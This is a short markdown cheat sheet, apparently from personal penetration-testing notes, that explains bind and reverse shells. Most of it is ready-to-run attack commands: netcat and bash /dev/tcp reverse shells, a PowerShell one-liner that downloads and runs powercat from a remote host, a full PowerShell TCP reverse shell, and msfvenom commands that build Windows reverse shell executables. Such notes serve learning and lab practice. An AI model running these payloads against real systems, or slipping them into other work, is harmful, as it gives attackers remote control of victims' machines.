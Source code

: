 # Shells

This section is all about shells

## Bind shell vs reverse shell

### Bind shell

Basically, we are opening a port with our shell for other people to execute

- Client computer starts up a listening session with shell executing on that port
- Connector just connects to the listening port that has shell already running

### Reverse shell

Basically, we are sending our own shell over to the operator

- Operator listens on a port
- Client computer connects to the listening port on the operator with the client's own shell
- Operator now has control of clients shell

#### Netcat reverse shell

```sh
nc <listening_host> <listening_port> -e /bin/bash
```

#### TCP revsrse shell

```sh
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

#### Powercat reverse shell example

```cmd
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

#### Powershell reverse shell

```sh
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Generating shell payloads

### Stageless payload (catchable with netcat)

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=80 -f exe > shell.exe
```

### Staged payloads (caught with meterpreter or other programs)

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=5555 -f exe > binary.exe
```

